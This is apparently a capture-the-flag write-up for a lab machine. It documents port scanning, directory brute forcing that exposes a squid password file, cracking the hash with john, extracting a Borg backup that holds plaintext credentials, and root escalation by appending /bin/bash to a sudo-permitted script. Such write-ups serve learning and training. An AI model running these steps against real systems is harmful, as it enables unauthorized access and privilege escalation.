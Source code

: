 
> Author: jak010  
> Date: 2021.05.19

## Scan (Nmap)
- Command
	```sh
	$ namp -sC -sV {EXPORT_IP}
	```
	- Result
		```sh
		Starting Nmap 7.91 ( https://nmap.org ) at 2021-05-19 16:58 KST
		NSE: Warning: Could not load 'docker-version.nse': no path to file/directory: docker-version.nse
		Stats: 0:01:22 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
		Connect Scan Timing: About 99.99% done; ETC: 16:59 (0:00:00 remaining)
		Nmap scan report for 10.10.28.79
		Host is up (0.28s latency).
		Not shown: 998 closed ports
		PORT   STATE SERVICE VERSION
		22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
		| ssh-hostkey:
		|   2048 db:b2:70:f3:07:ac:32:00:3f:81:b8:d0:3a:89:f3:65 (RSA)
		|   256 68:e6:85:2f:69:65:5b:e7:c6:31:2c:8e:41:67:d7:ba (ECDSA)
		|_  256 56:2c:79:92:ca:23:c3:91:49:35:fa:dd:69:7c:ca:ab (ED25519)
		80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
		|_http-server-header: Apache/2.4.18 (Ubuntu)
		|_http-title: Apache2 Ubuntu Default Page: It works
		Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

		Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
		Nmap done: 1 IP address (1 host up) scanned in 102.65 seconds
		```

## Directory Brute Forcing
- Command
	```sh
	$ ffuf -w raft-large-directories-lowercase.txt -u http://10.10.28.79/FUZZ
	```
	- Result
		```
				/'___\  /'___\           /'___\
			/\ \__/ /\ \__/  __  __  /\ \__/
			\ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
				\ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
				\ \_\   \ \_\  \ \____/  \ \_\
				\/_/    \/_/   \/___/    \/_/

			v1.2.1
		________________________________________________

		:: Method           : GET
		:: URL              : http://10.10.28.79/FUZZ
		:: Wordlist         : FUZZ: raft-large-directories-lowercase.txt
		:: Follow redirects : false
		:: Calibration      : false
		:: Timeout          : 10
		:: Threads          : 40
		:: Matcher          : Response status: 200,204,301,302,307,401,403,405
		________________________________________________

		admin                   [Status: 301, Size: 310, Words: 20, Lines: 10]
		etc                     [Status: 301, Size: 308, Words: 20, Lines: 10]
		server-status           [Status: 403, Size: 276, Words: 20, Lines: 10]
								[Status: 200, Size: 11321, Words: 3503, Lines: 376]
		```

	- Interesting Path
		- http://{EXPORT_IP}/etc/squid/passwd
		- http://{EXPORT_IP}/etc/squid/squid.conf


## Password Brute Forcing
- Command
	```sh
	john --wordlist=/SecLists/Passwords/xato-net-10-million-passwords-1000000.txt credential.txt
	```
	- Result
		```
		Loaded 1 password hash (md5crypt [MD5 32/64 X2])
		Press 'q' or Ctrl-C to abort, almost any other key for status
		squidward        (music_archive)
		1g 0:00:00:10 100% 0.09832g/s 15509p/s 15509c/s 15509C/s squier..squidward
		Use the "--show" option to display all of the cracked passwords reliably
		Session completed
		```

## Using BorgBackup Tool
- Command
	```sh
	$ ./borg extrach /path/::music_archive
	```
- File for Next Step
	- cat home/alex/Desktop/secret.txt
		- Result
			```
			shoutout to all the people who have gotten to this stage whoop whoop!"
			```
	- cat home/alex/Documents/note.txt
		- Result
			```
			Wow I'm awful at remembering Passwords so I've taken my Friends advice and noting them down!

			alex:S3cretP@s3
			```
- USER CREDENTIAL
	- alex:S3cretP@s3	

## Priviliege Esclate
- `sudo -l`
	```text
	Matching Defaults entries for alex on ubuntu:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

	User alex may run the following commands on ubuntu:
    (ALL : ALL) NOPASSWD: /etc/mp3backups/backup.sh
	```
	- Steps for this Case
		```sh
		$ chmod 777 /etc/mp3backups/backup.sh
		$ echo "/bin/bash" >> /etc/mp3backups/backup.sh
		$ sudo /etc/mp3backups/backup.sh
		```
	